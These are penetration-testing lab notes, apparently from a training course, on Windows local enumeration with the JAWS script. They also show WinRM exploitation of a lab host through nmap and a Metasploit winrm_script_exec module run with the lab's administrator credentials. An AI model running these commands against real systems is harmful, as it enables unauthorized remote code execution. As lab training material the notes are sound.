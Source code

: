 ## Automating Local Enum <a href="#automating-local-enum" id="automating-local-enum"></a>

> 🔬 INE LAB
>
> * Target IP: `10.0.17.176`
> * Credentials: `administrator`:`tinkerbell`
> * Automation Tools:
>   * [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
>   * Metasploit Framework

**`JAWS`** - PowerShell 2.0 script designed to help penetration testers quickly _identify potential privilege escalation vectors on Windows systems._

```bash
PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```

### Enumeration & Exploitation <a href="#enumeration-and-exploitation-1" id="enumeration-and-exploitation-1"></a>

```bash
# Target WinRM
nmap -sV -p 5985 10.0.17.176
	5985/tcp open  http  Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

```bash
service postgresql start && msfconsole -q
search winrm
use exploit/windows/winrm/winrm_script_exec
setg RHOSTS 10.0.17.176
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
run
```

<figure><img src="../../../../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>
